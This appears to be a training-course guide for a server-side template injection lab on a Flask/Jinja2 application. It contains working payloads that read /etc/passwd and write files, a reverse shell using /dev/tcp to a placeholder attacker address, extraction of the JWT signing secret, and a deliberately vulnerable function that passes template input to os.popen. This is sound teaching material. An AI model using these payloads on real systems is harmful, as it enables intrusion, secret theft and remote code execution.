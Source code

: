 # Server side template injection

This is the course guide for server-side template injection.

Template engines are widely used by web applications to present dynamic data via web pages and emails. Unsafely embedding user input in templates enables Server-Side Template Injection, a frequently critical vulnerability that is extremely easy to mistake for Cross-Site Scripting (XSS), or miss entirely. Unlike XSS, Template Injection can be used to directly attack web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

Follow the full source to find how to discover this vulnerability and how to determine the templating engine
that is being used by the application.

[full source here](https://portswigger.net/blog/server-side-template-injection)

### Objective 

* Use template injection to read the flask "configurations" such as the secret for signing JWT tokens
* Use template injection to envoke a local function to leverage RCE

#### Semi spoiler!

Included [here](https://github.com/RiieCco/owasp-bay-area/tree/master/course-guide/server-side-template-injection/report.html) is the scan report of a Burp intruder scan on the target. Use this scan report to pinpoint the exact location of the vulnerability.


#### This works for python 2

Jinja2 - Read remote file
```
# ''.__class__.__mro__[2].__subclasses__() = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

Jinja2 - Write into remote file
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```
Jinja2 - Remote Code Execution via reverse shell
Listen for connexion
```
nv -lnvp 8000
```

Inject this template
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

#### However we use python3 

In this scenario we use python3 to leverage the attack so the method as mentioned above is no longer
valid. We need to find other ways for exploitation. Even without nice methods to iterate the subclasses 
as with python3 we can still get a lot of interesting information about the system.

try to inject:

```
{{ config.items() }}
```

Here we find al the different configurations of the target. Amongst others we find the 

```
('SECRET_KEY', 'random')
```

This key is used to sign the JWT tokens and can iie be used to gain unauthorized access to the
application.

#### Spoiler - exploitation of the target.

The developer of this application thought it was a good idea to have a generic function for his
monitoring and make this function callable by the templating engine, this way he could easilly utilize 
system commands on a easy and secure way (or so he thought) to monitor the system.

We can now abuse the template expression to invoke this command with our own 
system command injection like

```
http://0.0.0.0:8081/{{system_call('netcat listener pwn')}}
```

Here follows the code that is responsible for the vulnerability:

```
@app.context_processor
def utility_processor():
    def system_call(command):
        output = os.popen(command).read()
        return output
    return dict(system_call=system_call)
```